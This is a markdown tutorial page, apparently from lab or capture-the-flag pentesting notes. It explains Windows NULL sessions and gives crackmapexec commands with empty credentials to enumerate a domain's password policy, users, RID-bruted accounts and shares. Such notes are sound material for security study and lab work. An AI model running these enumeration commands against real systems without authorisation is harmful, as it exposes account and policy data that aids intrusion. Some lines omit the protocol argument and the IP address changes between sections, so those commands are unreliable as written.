 ## Exploiting NULL Sessions

A [NULL Session](https://en.wikipedia.org/wiki/Null_session) is an anonymous connection to an inter-process communication network service on Windows-based computers. The service is designed to allow named pipe connections but may be used by attackers to gather information about the system remotely.

When a target is vulnerable to a **NULL Session**, especially a domain controller, it will allow the attacker to gather information without having a valid domain account, such as: 

- Domain users (**--users**)
- Domain groups (**--groups**)
- Pasword policy (**--pass-pol**)
- Share folders (**--shares**)

### Enumerating the Password Policy 

```
$ crackmapexec smb 10.129.209.144 -u '' -p '' --pass-pol
$ sed -i "s/'/\"/g" passpol.txt
$ cat passpol.txt
$ cat passpol.txt | jq

```

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-pol.png) 

- If we want to export this list we can use **--export [OUTPUT_FULL_FILE_PATH]**. In the following example we will use **$(pwd)** to use the current path: 


![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-1.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-2.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-3.png) 


### Enumerating Users 

```

$ crackmapexec smb 10.129.209.144 -u '' -p '' --users --export $(pwd)/users.txt 
$ sed -i "s/'/\"/g" users.txt
$ jq -r '.[]' users.txt > userlist.txt
$ cat userlist.txt

```


![Exploiting SMB](/Exploiting-NULL-Sessions/images/users.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/users-1.png) 


### Enumerating Users with --rid-brute 

```
$ crackmapexec 10.129.207.144 -u '' -p '' --rid-brute 
$ crackmapexec 10.129.207.144 -u '' -p '' --shares 
$ crackmapexec 10.129.207.144 -u Guest -p '' --shares 

```

![Exploiting SMB](/Exploiting-NULL-Sessions/images/rid-shares.png) 
